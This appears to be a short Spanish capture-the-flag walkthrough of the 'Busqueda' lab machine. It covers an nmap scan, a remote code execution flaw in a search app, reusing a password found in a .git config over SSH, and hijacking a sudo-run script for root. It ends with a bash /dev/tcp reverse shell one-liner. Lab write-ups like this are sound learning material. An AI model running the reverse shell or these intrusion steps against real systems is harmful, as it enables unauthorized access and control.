









Busqueda
- Hago un escaneo de puertos nmap -sV -sC -p- --open 10.10.11.208 -T4 -A -vv -oN scan.txt
- Añado la dirección IP a /etc/hosts
- A primera vista es como un searcher por lo que creo que hace la busqueda directamente en bd.
- Posible SQLI
- Intercepto la solicitud con Burpsuite
- El buscador hace una solicitud php

- Al final de la página encuentro una versión

- La pagina es un buscador que genra url para una cantidad de motores de búsqueda
- Es sensible a RCE. Vuln CVE-2023-43364
- Obtengo reverse shell

- Encuentro la flag user
- Una vez tenemos acceso a la máquina tendremos que hacer footprint para buscar una posible privesc
- Normalmente suelo empezar a enumerar por donde está la web
- En un archivo config dentro de .git encuentro una pass que me sirve para conectarme a través de SSH

- Esto también me sirve para mejorar la conexión
- Con estas credenciales que obtuve entro con SSH

- Haciendo un sudo -l encuentro que puedo ejecutar como root un comando

- Tras informarme un poco sobre el comando consigo ejecutarlo como root

- No tenemos permisos para editar estos archivos

- Puede que si borro full-checkup y creo otro archivo consiga que ese archivo se ejecute como root
- No me deja borrarlo. Si el script no tiene la ruta entera puede que cree otro archivo en el directorio local y se ejecute mi script en vez de otra
- Estaba teniendo errores por que no le asigné permisos de ejecución a la script

- Meto el reverse shell dentro de la script y obtengo root bash -i >& /dev/tcp/<YourIP>/<PORT> 0>&1